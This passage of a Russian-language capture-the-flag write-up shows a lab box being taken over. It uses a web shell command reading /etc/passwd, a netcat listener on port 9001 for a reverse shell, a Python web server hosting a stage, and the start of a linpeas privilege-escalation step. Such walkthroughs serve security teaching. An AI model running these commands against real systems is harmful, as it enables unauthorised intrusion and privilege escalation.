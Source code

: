 ![plot](./screens/web-shell.png)

И проверяем команду введя запрос ?cmd=cat+/etc/passwd проверив, что команды исполняются в веб-шелле. Пора приступать к получению оболочки.

Делаем реверс-шелл.

Слушаем реверс порт 9001 командой **nc -lvnp 9001** и развернем свой веб-сервер на питоне для скачивания стейджа(мне так удобнее + иногда напрямую команда не отрабатывает) **python3 -m http.server**

# Postexploitation and privilage escalation

Отправляем запрос:

![plot](./screens/reverse-shell-from-webshell.png)

И получаем реверс шелл и сразу осматриваемся, пытаемся зайти в папку юзера jack за флагом, но туда не пускает, не хватает прав пробуем запустить linpeas подложив его в наш веб-сервер:

